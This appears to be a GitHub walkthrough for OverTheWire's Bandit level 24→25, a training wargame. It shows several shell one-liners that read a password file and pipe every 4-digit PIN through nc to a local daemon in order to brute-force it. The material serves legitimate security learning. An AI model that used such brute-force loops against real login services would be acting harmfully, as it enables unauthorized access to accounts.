








# Bandit Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time


### 🔑 Solution

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Then enter the password obtained from the previous challenge.

### 🔑🔑🔑🔒 Brute-force Concept



Write a loop function that repeatedly sends the value to localhost:30002 up to 10,000 times.

There are many ways to solve this challenge. Tools like `awk`, `sed`, `echo`, `cat`, `printf`, and `paste` can be useful for manipulating the data.

Below are some example commands that can help you complete the challenge.
```
{ for pin in $(seq -w 9999 -1 0000); do awk -v pin="$pin" '{print $0, pin}' /etc/bandit_pass/bandit24; done; } | nc localhost 30002
```
```
for pin in $(seq -w 9999 -1 0000); do sed "s/\$/ $pin/" /etc/bandit_pass/bandit24; done | nc localhost 30002
```
```
seq -w 9999 -1 0000 | while read -r pin; do sed "s/\$/ $pin/" /etc/bandit_pass/bandit24; done | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do printf '%s\n' "$(cat /etc/bandit_pass/bandit24) $pin"; done; } | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do paste -d' ' /etc/bandit_pass/bandit24 <(printf $pin); done; } | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do echo gb8====bandit24password==== $pin; done; } | nc localhost 30002
```







#### 💻coding + 🎨creativity = ♾️🚀countless_possibility



Congratulations! You’ve found the flag for the next challenge.


